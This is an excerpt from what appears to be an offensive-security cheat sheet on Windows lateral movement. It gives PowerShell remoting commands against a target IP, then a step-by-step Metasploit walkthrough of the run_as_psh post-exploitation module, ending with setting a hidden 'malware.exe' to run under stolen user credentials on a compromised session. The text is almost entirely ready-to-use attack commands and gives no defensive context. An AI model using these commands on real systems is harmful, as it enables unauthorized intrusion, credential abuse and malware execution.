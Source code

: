 ```
PS C:\> invoke-command -computer <IP> -credential $credential -scriptblock { <commands> }

PS C:\> Enter-PSSession -ComputerName <IP>
```

### 2.2 - Metasploit

- **MSF Windows 'Run As' Using Powershell Post Module**

```
msf > use post/windows/manage/run_as_psh

msf post(windows/manage/run_as_psh) > options

Module options (post/windows/manage/run_as_psh):  
  
  Name         Current Setting  Required  Description  
  ----         ---------------  --------  -----------  
  ARGS                          no        Arguments  
  CHANNELIZE   true             yes       Channelize output, required for reading output or interacting  
  DOMAIN                        no        Domain of user  
  EXE          cmd.exe          yes       Executable to run  
  HIDDEN       true             yes       Hide the window  
  INTERACTIVE  true             yes       Run interactively  
  PASS                          yes       Password of user  
  PATH         C:\              yes       Working Directory  
  SESSION                       yes       The session to run this module on  
  USER                          yes       User to run executable as  
  
  
View the full module info with the info, or info -d command.

msf post(windows/manage/run_as_psh) > set channelize <true | false>

msf post(windows/manage/run_as_psh) > set exe /path/to/malware.exe

msf post(windows/manage/run_as_psh) > set args [arguments]

msf post(windows/manage/run_as_psh) > set hidden <true | false>

msf post(windows/manage/run_as_psh) > set interactive <true | false>

msf post(windows/manage/run_as_psh) > set user <username>

msf post(windows/manage/run_as_psh) > set pass <password>

msf post(windows/manage/run_as_psh) > set domain [domain_name]

msf post(windows/manage/run_as_psh) > set path <C:\\path\\to\\directory>

msf post(windows/manage/run_as_psh) > set session <session_id>

msf post(windows/manage/run_as_psh) > run
```
